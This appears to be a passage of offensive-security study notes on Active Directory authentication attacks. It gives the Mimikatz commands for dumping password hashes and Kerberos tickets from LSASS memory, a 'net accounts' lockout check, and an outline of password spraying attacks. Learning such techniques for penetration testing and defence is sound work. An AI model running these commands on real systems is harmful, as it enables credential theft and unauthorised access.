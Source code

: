 # Active Directory Authentication

## Cached AD Credentials

In modern versions of Windows, password hashes are stored in the _Local Security Authority Subsystem Service_ (LSASS) memory space. Accessing this memory space requires elevated privileges (SYSTEM or local administrator).

One way to protect against tools like _Mimikatz_ is to enable _LSA Protection.

```bash
powershell -ep bypass
.\mimikatz.exe
```

Enabling the _SeDebugPrivlege_ privilege which allows interacting with processes owned by other accounts:

```bash
privilege::debug
```

Retrieving hashes associated with users logged into the current machine:

```bash
sekurlsa::logonpasswords
```

A different way to use _Mimikatz_ is to use _TGT_ and _service tickets_. In fact, tickets are also stored inside LSSAS and therefore it is possible to use them to retrieve tickets.

Then run this command:

```bash
sekurlsa::tickets
```

# Performing Attacks on Active Directory Authentication

## Password Attacks

One of the important pieces of information to obtain before starting a brute force or wordlist-based attack is the policies linked to the specific account you want to attack. A very important piece of information, obtained by using the _net accounts_ command, is the lockout number, or the number of possible attempts before the account can be blocked:

```bash
net accounts
```

Below are 3 examples:
1) Using LDAP and ADSI to perform a _low and slow_ password attack_ against AD users.
2) _Password spraying attack_ against AD users using SMB.
3) _Password spraying attack_ based on obtaining a TGT.
